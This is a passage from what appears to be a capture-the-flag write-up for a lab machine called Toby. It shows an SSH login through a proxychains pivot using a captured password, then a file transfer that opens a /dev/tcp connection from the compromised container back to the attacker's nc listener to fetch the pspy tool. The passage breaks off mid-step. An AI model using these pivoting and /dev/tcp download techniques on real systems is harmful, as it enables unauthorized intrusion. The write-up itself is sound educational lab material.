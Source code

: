 
    oxdf@hacky$ sshpass -p '4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC' ssh jack@toby.htb
    Warning: Permanently added 'toby.htb,10.10.10.140' (ECDSA) to the list of known hosts.
    Permission denied, please try again.

    oxdf@hacky$ proxychains sshpass -p '4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC' ssh jack@172.69.0.102
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:1080-<><>-172.69.0.102:22-<><>-OK
    Linux mysql.toby.htb 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sat Oct  9 10:37:39 2021 from 172.69.0.101
    jack@mysql:~$



## Shell as jack on Toby

### Enumeration

The container is pretty empty. I already looked at the database and
there wasn't much else there. To look for processes, I uploaded
[pspy](https://github.com/DominicBreuker/pspy). Given the complete lack
of tools on this container, I had to use this [Bash
trick](https://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip)
using `/dev/tcp` and redirection (similar to the [Bash rev
shell](https://www.youtube.com/watch?v=OjkVep2EIlw)). First, I'll have
`nc` listening to serve `pspy64` on my host:



    oxdf@hacky$ cat pspy64 | nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443



Now use `exec` to connect:



    jack@mysql:~$ exec 3<>/dev/tcp/10.10.14.6/443



At `nc`, there's the connection:



    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:36664.



Now I can read from it:

